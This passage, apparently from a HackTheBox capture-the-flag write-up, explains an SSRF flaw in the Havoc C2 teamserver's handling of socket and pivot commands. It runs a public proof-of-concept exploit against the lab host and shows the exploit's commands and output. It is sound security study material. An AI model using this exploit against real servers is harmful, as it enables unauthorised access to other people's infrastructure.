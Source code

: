If the command is `COMMAND_SOCKET` or `COMMAND_PIVOT`, then this just returns true. This means that the demon can contact the C2 with one of these commands and it doesn’t matter that it never issued a request for it. The reason is that these are used for proxying data and creating tunnels.

With these commands, the researcher was able to generate a SSRF.

#### Run POC

The second link in the search above is a [POC on GitHub](https://github.com/chebuya/Havoc-C2-SSRF-poc), which is associated with the blog post. I’ll save a copy of the script. It doesn’t document what libraries are needed, but it turns out it’s `requests` and `pycryptodome`. I’ll add these with `uv` (check out the [uv cheatsheet](/cheatsheets/uv#) for details):

```

oxdf@hacky$ uv add --script exploit.py requests pycryptodome
Updated `exploit.py`
oxdf@hacky$ uv run --script exploit.py
Installed 6 packages in 8ms
usage: exploit.py [-h] -t TARGET -i IP -p PORT [-A USER_AGENT] [-H HOSTNAME] [-u USERNAME]
                  [-d DOMAIN_NAME] [-n PROCESS_NAME] [-ip INTERNAL_IP]
exploit.py: error: the following arguments are required: -t/--target, -i/--ip, -p/--port

```

I’ll give the script the target as well as a reference to the IP and port to make a request to (my HTB VPN IP):

```

oxdf@hacky$ uv run --script exploit.py -t https://10.10.11.49 -i 10.10.14.6 -p 80
[***] Trying to register agent...
[***] Success!
[***] Trying to open socket on the teamserver...
[***] Success!
[***] Trying to write to the socket
[***] Success!
[***] Trying to poll teamserver for socket output...
[***] Read socket output successfully!
HTTP/1.0 404 File not found
Server: SimpleHTTP/0.6 Python/3.12.3
Date: Fri, 24 Jan 2025 18:51:43 GMT
Connection: close
Content-Type: text/html;charset=utf-8
Content-Length: 335

<!DOCTYPE HTML>
<html lang="en">
    <head>
        <meta charset="utf-8">
        <title>Error response</title>
    </head>
    <body>
        <h1>Error response</h1>
        <p>Error code: 404</p>
        <p>Message: File not found.</p>
        <p>Error code explanation: 404 - Nothing matches the given URI.</p>
    </body>
</html>

```
